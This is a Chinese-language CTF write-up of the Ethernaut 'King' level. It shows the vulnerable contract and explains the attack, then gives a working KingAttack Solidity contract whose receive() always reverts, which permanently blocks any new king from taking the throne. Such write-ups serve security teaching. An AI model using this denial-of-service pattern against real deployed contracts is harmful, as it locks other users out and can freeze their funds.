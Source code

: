 # 9. King
### 原题

下面的合约表示了一个很简单的游戏: 任何一个发送了高于目前价格的人将成为新的国王. 在这个情况下, 上一个国王将会获得新的出价, 这样可以赚得一些以太币. 看起来像是庞氏骗局.

这么有趣的游戏, 你的目标是攻破他.

当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关.

---
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```
### 分析
这个感觉就是竞选国王啊，谁有钱谁就当，如果你价更高，我必须被迫接受下台。\
可是我很享受当国王的美好日子，想打破规则，想一直当下去。\
这时候我又要开始动起我的小心思了，试试能不能破解。就算你钱再多，系统也不会让我拱手相让。\
我们看看这个receive()函数，你要不就是所有者，要不就是你要出价比上一个国王的价格高，才可以得到。假设我从七大姑八大姨东拼西凑凑齐了足够的钱，那我就可以转账，然后得到我要的。\
上一个国王得到我的补贴，把皇位拱手相让。\
我要防止下一个，那怎么办，那就是我不接收转账呗。\
“payable(king).transfer(msg.value);”如果我在接受转账的过程中主动revert()，那就整个交易都是失败的，我还是原来的我！
来看看代码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingAttack {
   address public king;

    constructor(address _king) payable  {
      king = _king;

    }
    function attack(uint256 amount) public {
      require(address(this).balance >= amount, "Not enough");  
      (bool success,) = king.call{value: amount}("");
      require(success, "attack failed");
    }

    receive() external payable { 
      // 重点在这，主动报错,整个交易回滚，你还是原来的国王
      revert("I am King forever");
    }

}
```
### 总结
这个案例告诉我们，要学会拒绝：）